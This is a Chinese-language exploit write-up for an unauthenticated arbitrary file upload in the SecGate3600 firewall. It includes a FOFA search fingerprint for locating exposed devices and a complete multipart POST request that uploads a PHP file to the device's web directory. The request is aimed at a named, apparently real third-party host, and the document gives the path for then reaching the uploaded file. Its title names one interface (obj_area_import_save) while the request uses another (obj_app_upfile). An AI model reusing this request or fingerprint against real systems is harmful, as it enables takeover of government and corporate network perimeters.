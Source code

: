 # 奇安信网神SecGate3600防火墙obj_area_import_save任意文件上传漏洞

## 1.漏洞介绍

网神SecGate3600防火墙是一款能够全面应对传统网络攻击和高级威胁的创新型防火墙产品，基于麒麟操作系统与飞腾硬件平台打造，可广泛运用于政府机构、各类企业和组织的业务网络边界，实现网络安全域隔离、精细化访问控制、高效的威胁防护和高级威胁检测等功能。该软件obj_area_import_save接口存在文件上传漏洞，未经授权的攻击者可通过此漏洞上传恶意后门文件，从而获取服务器权限。

## 2.漏洞复现

FOFA：

```
fid="1Lh1LHi6yfkhiO83I59AYg=="
```

![截图](a0712ed9f9862659965c9baed66bc896.png)

POC：

```
POST /?g=obj_app_upfile HTTP/1.1
Host: jg.zhongdinggroup.com:8889
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 574
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="upfile"; filename="test.php"
Content-Type: text/plain

<?php phpinfo();?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

![截图](81f18f889aefcb67aad14891bcdf3f94.png)

默认上传路径 /secgate/webui/attachements/ ， 访问 attachements/test.php 文件

![截图](308838b12997d1bbb3fff0ebd1340a7f.png)